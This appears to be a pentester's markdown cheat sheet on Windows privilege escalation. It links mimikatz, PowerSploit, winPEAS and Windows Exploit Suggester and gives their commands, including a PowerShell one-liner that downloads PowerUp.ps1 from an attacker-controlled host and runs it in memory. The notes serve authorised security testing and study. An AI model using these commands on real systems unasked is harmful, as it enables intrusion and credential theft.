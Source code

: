 ## resources

- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

- [mimikatz](https://github.com/Kahvi-0/Tools-and-Concepts/blob/master/Windows/Mimikatz.md)

  - Need process with permissions to be able to interact with the running lsass.exe process
    -  ran as NT AUTHORITY\SYSTEM
    -  Must be same arch as the lsass.exe running on the target
    
- [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

Run powershell and run the following to download and run in memory

    iex(New-Object Net.WebClient).DownloadString('http://<ip>:<port>PowerUp.ps1')
    
-------------------------------------------------------------------------------------

- [Nishang repo](https://github.com/samratashok/nishang)

-------------------------------------------------------------------------------------

- [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASbat)

      wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/winPEAS/winPEASbat/winPEAS.bat
      
-------------------------------------------------------------------------------------
      
- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---common-vulnerabilities-and-exposure)

-------------------------------------------------------------------------------------


- [Windows exploit suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

      wget https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py && chmod +x windows-exploit-suggester.py && ./windows-exploit-suggester.py --update
      
      # This download and will create an .xlsx database
      
      With meterpreter "sysinfo" or CMD "systeminfo" saved to a file 
      
      ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt 
      
      # Without 
      
      ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --ostext 'windows server 2008 r2'


- Meterpreter exploit suggester module

      post/multi/recon/local_exploit_suggester


-------------------------------------------------------------------------------------

[Token impersonation](https://github.com/Kahvi-0/Vulnerabilities-and-Exploitations/blob/master/Local/Token%20Impersonation.md)
